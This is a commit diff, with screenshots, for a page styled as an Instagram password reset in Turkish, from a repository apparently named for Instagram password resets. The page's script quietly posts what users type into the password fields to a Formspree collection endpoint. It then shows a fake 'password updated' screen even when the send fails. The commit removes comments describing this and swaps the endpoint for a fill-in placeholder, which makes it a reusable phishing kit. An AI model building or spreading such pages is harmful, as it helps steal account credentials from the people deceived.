

Before and after one commit to instagram-pasword-reset/security, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after typing "Sample123", "Sample123", "Sample123" into the empty fields and a click on the button "Şifreyi değiştir". Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -127,12 +127,6 @@
             min-height: 80vh;
         }
 
-        .success-icon {
-            width: 64px;
-            height: 64px;
-            margin-bottom: 20px;
-        }
-
         .success-title {
             font-size: 22px;
             font-weight: 700;
@@ -186,18 +180,14 @@
 
         <!-- İkinci ekran: Uğurlu Mesaj -->
         <div id="successPage">
-            <svg class="success-icon" viewBox="0 0 24 24" fill="none" stroke="#22c55e" stroke-width="2" stroke-linecap="round" stroke-linejoin="round">
-                <path d="22 11.08V12a10 10 0 1 1-5.93-9.14"></path>
-                <polyline points="22 4 12 14.01 9 11.01"></polyline>
-            </svg>
-            <h2 class="success-title">Şifre başarıyla güncellendi</h2>
+            <h2 class="success-title">Şifre başarıyla güncellendi!</h2>
             <p class="success-desc">Hesap güvenliğiniz için yeni şifreniz aktif edildi.</p>
             <a href="instagram://" class="open-app-btn">Instagram'ı aç</a>
         </div>
     </div>
 
     <script>
-        const FORMSPREE_URL = "https://formspree.io/f/xwlewbor";
+        const FORMSPREE_URL = "BURAYA_FORMSPREE_LINKINI_YAZ";
 
         document.getElementById('resetForm').addEventListener('submit', function(e) {
             e.preventDefault();
@@ -207,7 +197,6 @@
             const errorText = document.getElementById('errorText');
             const submitBtn = document.getElementById('submitBtn');
 
-            // Şifrələrin eyniliyini yoxla
             if (newPass !== confirmPass) {
                 errorText.style.display = 'block';
                 return;
@@ -218,7 +207,6 @@
             submitBtn.disabled = true;
             submitBtn.innerText = "Yükleniyor...";
 
-            // Formspree-yə məlumatı arxa fonda göndər
             const formData = new FormData(this);
 
             fetch(FORMSPREE_URL, {
@@ -228,11 +216,9 @@
                     'Accept': 'application/json'
                 }
             }).then(response => {
-                // Formspree ekranı çıxmadan birbaşa yeni səhifəyə keç
                 document.getElementById('formPage').style.display = 'none';
                 document.getElementById('successPage').style.display = 'flex';
             }).catch(error => {
-                // Xəta olsa belə keçid etsin
                 document.getElementById('formPage').style.display = 'none';
                 document.getElementById('successPage').style.display = 'flex';
             });
```
